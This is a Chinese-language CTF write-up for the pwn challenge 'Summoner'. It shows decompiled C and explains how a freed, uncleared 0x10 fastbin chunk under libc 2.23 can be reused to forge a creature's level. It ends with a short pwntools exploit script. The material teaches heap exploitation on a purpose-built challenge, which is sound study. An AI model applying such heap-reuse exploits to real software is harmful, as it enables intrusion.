 ## Summoner

- 题目描述：

  > 邪恶召唤师拦住了你的去路。这将是一场召唤师之间的对决。 
  >
  > By *Mercurio*
  
 - 题目附件：[summoner](https://cdn.jsdelivr.net/gh/SignorMercurio/MetasequoiaCTF@master/Pwn/Summoner/summoner)

 - 考察点：fastbin回收机制

 - 难度：简单

 - 初始分值：250

 - 最终分值：239

 - 完成人数：3

### 程序分析

功能：创建小怪、释放小怪、升级小怪、显示等级、派小怪打BOSS。

限制：只可以创建一个小怪，最高升到4级，只有5级小怪可以打败BOSS，给flag

分析一下，不难看出小怪结构体如下：

```c
struct imagin{
	char *name;
	int  level;
};
```

`summon`功能如下：

```c
cmd = "summon";
if ( !strncmp(&s, "summon", 6uLL) ){
    if ( imagin ){
        puts("Already have one creature. Release it first.");
    }
    else{
        cmd = "\n";
        nptr = strtok(&v11, "\n");
        if ( nptr ){
            imagin = malloc(0x10uLL);
            if ( !imagin ){
                puts("malloc() returned NULL. Out of Memory\n");
                exit(-1);
            }
            *imagin = strdup(nptr);             // call malloc
            cmd = nptr;
            printf("Current creature:\"%s\"\n", nptr);
        }
        else{
            puts("Invalid command");
        }
    }
}
```

`summon`的时候会先`malloc`一个`0x10`的chunk，随后的`strdup`也会调用`malloc`，chunk的大小取决于小怪名字的长度。

`release`功能如下：

```c
cmd = "release";
if ( !strncmp(&s, "release", 7uLL) ){
	if ( imagin ){
		free(*imagin);
		imagin = 0LL;
		puts("Released.");
	}
else{
puts("No creature summoned.");
}
```

`release`的时候释放了`strdup`分配的内存。

### 解题思路

题目环境是`libc2.23`，没开`t-cache`机制，所以可以控制小怪的名字长度，分配一个`0x10`大小的chunk，然后释放掉它，这样就有了一个`0x10`的`fastbin`，再次`summon`小怪的时候，小怪结构体会被分配到`strdup`用过的chunk，chunk中的数据没有被清空，只要让`chunk+8=5`即可伪造等级

### exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './summoner'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
sla('> ','summon aaaaaaaa\5') 
sla('> ','release')
sla('> ','summon aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
sla('> ','strike')

p.interactive()
```

### 官方wp

超级详细的[Summoner](https://github.com/SignorMercurio/MetasequoiaCTF/tree/master/Pwn/Summoner)解析